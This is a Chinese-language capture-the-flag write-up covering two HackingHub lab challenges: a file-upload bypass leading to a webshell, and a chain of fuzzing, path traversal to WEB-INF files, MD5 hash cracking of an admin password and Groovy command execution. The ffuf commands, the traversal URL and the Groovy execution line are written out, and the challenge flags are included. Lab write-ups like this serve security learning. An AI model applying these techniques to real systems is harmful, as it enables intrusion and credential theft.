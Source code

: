 
## RemoteBinge
- https://x.com/hackinghub_io/status/1983217992579027331  ![](media/Pasted%20image%2020251029163116.png)


1. 进来是有个上传GIF  ，上传一张正常的看看业务功能 ![](media/Pasted%20image%2020251029162813.png)  
2. 发现就是展示和上传 ，修改后缀为php / html 看看行不行 ![](media/Pasted%20image%2020251029163010.png)  ![](media/Pasted%20image%2020251029162759.png)  
3. 发现可以 然后 一句话 木马 拿flag![](media/Pasted%20image%2020251029162743.png)  `flag{31bb2fcba177166fe823804cb0c7dbb6}`


## Path To RCE
- https://x.com/hackinghub_io/status/1982492919748587894   ![](media/Pasted%20image%2020251029163354.png)  
1. 404 探测路径  ![](media/Pasted%20image%2020251029163510.png)  
2. 登录界面： https://b3vtupoa.eu1.ctfio.com/admin/faces/jsf/login.xhtml 好像没有弱口令 继续fuzz![](media/Pasted%20image%2020251029163943.png)![](media/Pasted%20image%2020251029163953.png)
3. `ffuf -w wordlist.txt -u https://b3vtupoa.eu1.ctfio.com/admin/FUZZ -mc 200,201,300-307,400,405,415,403,401 -fs 0 -c -t 50 -v -recursion`   
	1. recursion 递归扫描 ![](media/Pasted%20image%2020251029165920.png)
	2. 发现 download / web-inf ![](media/Pasted%20image%2020251029172822.png)  
4. 看看Download 参数 `ffuf -w 2.txt -u "https://b3vtupoa.eu1.ctfio.com/admin/download?FUZZ=index.php" -c -mc 200-500 -fc 400 -t 400`  ![](media/e92cff99-e1cd-4eb0-ba30-f077f0e1589f.png) 
5. 看看 有什么内容是我们可以查看的 （/etc/passwd ❌ 查看/app.js好像可以，但是啥也没有，但是这确定我们只能访问admin目录下的内容） （可以问问AI WEB-INF 中有什么东西我们可以利用 ）： https://b3vtupoa.eu1.ctfio.com/admin/down?filename=/WEB-INF/web.xml   ![](media/Pasted%20image%2020251029173949.png)
```xml
<?xml version="1.0" encoding="UTF-8"?> <web-app> <servlet> <servlet-name>Download Servlet</servlet-name> <servlet-class>com.bus.admin.DownloadServlet</servlet-class> <load-on-startup>4</load-on-startup> </servlet> <servlet-mapping> <servlet-name>Incident Report Servlet</servlet-name> <url-pattern>/download</url-pattern> </servlet-mapping> <servlet> <servlet-name>Incident Report Servlet</servlet-name> <servlet-class>com.bus.admin.IncidentReportServlet</servlet-class> <load-on-startup>4</load-on-startup> </servlet> <servlet-mapping> <servlet-name>Incident Report Servlet</servlet-name> <url-pattern>/incident-report</url-pattern> </servlet-mapping> </web-app>



我们再这个文件中发现了 ----> /incident-report  这可能是事件报告

我们下载它， 并查看事件报告
```
6. 我们在事件报告的ZIP文件中，发现了 admin.xml
```xml
<web-app>

<information>

<username>administrator</username>

<firstname>Administrator</firstname>

<lastname>Administrator</lastname>

<emailAddress/>

<phoneNumber/>

</information>

<passwords class="sorted-set">

<password>

<value>21232f297a57a5a743894a0e4a801fc3</value>

<beginDate>2023-01-30 07:18:22.343 UTC</beginDate>

<mustChange>false</mustChange>

</password>

<password>

<value>fd7cde5c34594dc95640681307f6f4fb</value>

<beginDate>2024-04-20 13:39:12.958 UTC</beginDate>

<mustChange>false</mustChange>

</password>

</passwords>

</web-app>
```
7. 去CMD5 网站 查询密码 https://md5.gromweb.com/?md5=fd7cde5c34594dc95640681307f6f4fb   ---> superpass123  账号为 administrator
8. 返回登录界面 登录 administrator superpass123  ，我们发现了一个Groovy 执行命令`print "whoami".execute.text` 但是我们无论怎么运行 都看不到命令回显，我们想到前面还有事件报告`/incident-report `，所以返回去查看下载新的事件报告，并在事件报告中，发现了我们执行的命令结果   `flag{530deb6454d57b13c2089064d4f48f66}`

